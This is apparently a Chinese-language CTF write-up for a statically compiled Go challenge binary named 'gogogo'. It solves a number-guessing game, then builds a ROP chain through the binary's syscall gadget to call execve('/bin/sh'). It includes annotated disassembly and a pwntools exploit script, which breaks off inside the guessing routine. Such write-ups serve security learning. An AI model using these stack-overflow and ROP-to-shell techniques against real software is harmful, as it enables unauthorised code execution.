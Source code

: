### 功能分析

题目让输入特定的数字进入不同功能，但是漏洞点只有在完成程序给的参数字游戏才能到达，所以要先过猜数字游戏，游戏玩法参考[这里](https://www.cnblogs.com/funlove/p/13215041.html),解法就是穷举结果，必然有一个是对的，但是不能一个一个试，程序只有7次机会（爆破也可以，因为可以try again），这里只能随机输入一个数字，从answers里面排除，这样大概在5到6次就可以得出结果。之后会来到功能选择界面，这里直接选择退出，因为和漏洞点没有关系，之后来到漏洞点，输入payload进行rop即可。

### 利用步骤
go程序有以下syscall链子，浑然天成：
```c
.text:000000000047CF00 ; __int64 __usercall syscall_Syscall@<rax>()
.text:000000000047CF00 syscall_Syscall proc near               ; CODE XREF: syscall_Close+2B↑p
.text:000000000047CF00                                         ; syscall_fcntl+2F↑p ...
.text:000000000047CF00
.text:000000000047CF00 arg_0           = qword ptr  8
.text:000000000047CF00 arg_8           = qword ptr  10h
.text:000000000047CF00 arg_10          = qword ptr  18h
.text:000000000047CF00 arg_18          = qword ptr  20h
.text:000000000047CF00 arg_20          = qword ptr  28h
.text:000000000047CF00 arg_28          = qword ptr  30h
.text:000000000047CF00 arg_30          = qword ptr  38h
.text:000000000047CF00
.text:000000000047CF00                 call    sub_45D5C0
.text:000000000047CF05                 mov     rdi, [rsp+arg_8]         <---'/bin/sh\x00'-->
.text:000000000047CF0A                 mov     rsi, [rsp+arg_10]        <---0--->
.text:000000000047CF0F                 mov     rdx, [rsp+arg_18]        <---0--->
.text:000000000047CF14                 mov     rax, [rsp+arg_0]         <---59--->
.text:000000000047CF19                 syscall                 ; LINUX -    <---execve('/bin/sh',0,0)--->
.text:000000000047CF1B                 cmp     rax, 0FFFFFFFFFFFFF001h
```
1. 玩游戏win
2. 由于静态编译，程序里有天然的ropchain，找到syacall的rop链子，确定覆盖长度
3. 由于syscall是靠栈来传参数的，所以rop还是比较容易的,避免去找控制rdi、rsi、rdx的链子了（rdi/rsi链子不好找）
4. 输入payload，覆盖返回地址，获得shell。

### exp
slice的结构体指针有随机性，可多次尝试运行。
```python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context.terminal = ["/usr/bin/tmux","sp","-h"]
s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

p=process("./gogogo")

def guessTrainner():
   start =time.time()
   answerSet=answerSetInit(set())
#    print answerSet
   for i in range(6):
      inputStrMax=suggestedNum(answerSet,100)
      print('第%d步----' %(i+1))
      print('尝试：' +inputStrMax)
      print('----')
```
